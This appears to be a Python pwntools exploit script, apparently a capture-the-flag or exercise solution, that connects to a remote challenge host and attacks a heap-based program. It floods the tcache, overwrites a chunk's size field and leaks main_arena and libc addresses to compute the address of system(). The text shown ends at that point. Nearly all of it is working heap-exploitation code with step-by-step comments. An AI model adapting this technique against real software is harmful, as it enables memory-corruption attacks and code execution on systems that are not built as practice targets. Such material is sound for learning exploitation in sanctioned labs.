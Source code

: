 ```python
####################################

####################################
#                                  #
def _overwrite_size(size):
    payload = b""
    payload += b"\x00" * 0x1C
    payload += size
    payload += b"\x00" * 0x3

    return payload

def _flood_tcache():
    _create()
    _create()
    _create()
    _create()
    _create()
    _create()

    _set("0", _overwrite_size(b"\x01\x01"))

    _delete("0")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("1")
    _delete("0")
    _delete("1")
    _delete("2")
    _delete("1")
    _delete("0")

def _write_memory(dest, src):
    _set("6", b"\x00" * 0x18 + dest + "\x21" + "\x00" * 3)
    _set("6", p32(leaked - 0x20))

    _set("0", src)
####################################

p = remote("plsdonthaq.me", 7002)

# store entries in the tcache so that new free()s will be stored in the non-fast bins
# this also edits question 1's size to be 101 so that it will be placed in a large bin
_flood_tcache()

# the header for question 1 now stores <main_arena+56> so get the address stored in it's "question"
# and move back the correct offset to find the address storing question 1's prev
leaked = u32(_ask("1", True)) - 0x38

# overwrite question 2's "question" with the memory address
payload = _overwrite_size(b"\x21")
payload += b"\x00" * 0x18
payload += p32(0x0804b02c) # p32(leaked)
_set("1", payload)

# Print out question 2's "question" (which now leaks the memory address for <main_arena>)
leaked2 = u32(_ask("2", True)[:4])

libc   = leaked2 - 0x067b40 # - 0x170BC8 - 0x067c10 + 0x38
system = libc + 0x03d200 # 0x03d250
```